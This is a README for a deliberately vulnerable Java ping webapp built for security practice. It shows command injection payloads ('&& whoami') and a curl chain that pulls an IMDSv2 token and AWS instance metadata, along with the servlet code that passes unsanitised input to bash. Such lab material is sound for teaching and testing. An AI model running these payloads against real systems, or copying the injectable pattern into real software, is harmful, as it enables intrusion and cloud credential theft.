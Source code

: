 # Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
This is a vulnerable application for use in security testing and practice ONLY. Do not deploy anywhere in production!
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Exploitation](#license)
- [Vulnerability](#vulnerability)

## Features

I needed a simple app for security testing in AWS, in Java!
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple standalone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS
![Screenshot](screenshot.jpg)
![Screenshot2](screenshot2.jpg)


## Installation

Clone the repo and ensure you have maven installed.
If deploying in AWS I recommend deploying to an Amazon Linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in start.sh


## Exploitation

A couple of ways to exploit the app:

**Code execution:**

```google.com && whoami```


**SSRF exploit:**

```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash....

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```


